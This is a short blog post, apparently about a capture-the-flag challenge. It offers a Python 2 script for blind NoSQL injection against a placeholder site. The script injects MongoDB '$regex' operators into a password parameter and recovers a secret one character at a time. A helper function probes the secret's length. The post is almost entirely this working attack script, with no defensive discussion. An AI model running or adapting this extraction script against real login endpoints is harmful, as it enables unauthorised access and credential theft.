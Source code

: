 ```yaml
---
layout: post
title:  "No-SQL-Blind Injection script !"
date:   2017-01-30 14:45:00 +0100
categories: jekyll update
---
```


{% highlight python %}
#!/usr/bin/env python2                                                                                                                                                                                                                        

import urllib2
import time

def checkIfGood(param):
    response = urllib2.urlopen("http://www.vulnerable-site.com/index.php?name=user&pass[$regex]=" + param).read()
	print "[^]Trying " + param
	time.sleep(0.1)
	if response.find("This is not a valid flag") == -1:
		return (0)
	return (1)
							
CHARSET = "0123456789azertyuiopqsdfghjklmwxcvbnAZERTYUIOPQSDFGHJKLMWXCVBN@-_."

def main():
	i = 0
	tmp = ""
	while i < len(CHARSET):
		tmp += CHARSET[i]
		if checkIfGood(tmp + '.' + '{' + str(21 - len(tmp)) + '}') == 1:
			tmp = tmp[:-1]
		else:
			i = -1
		i = i + 1
																								
def check_nb_chars():
	i = 0
	while i < 100:
		if checkIfGood(".{" + str(i) + "}") == 0:
			print "OK : " + str(i)
		i = i + 1

# check_nb_chars()
main()
{% endhighlight %}
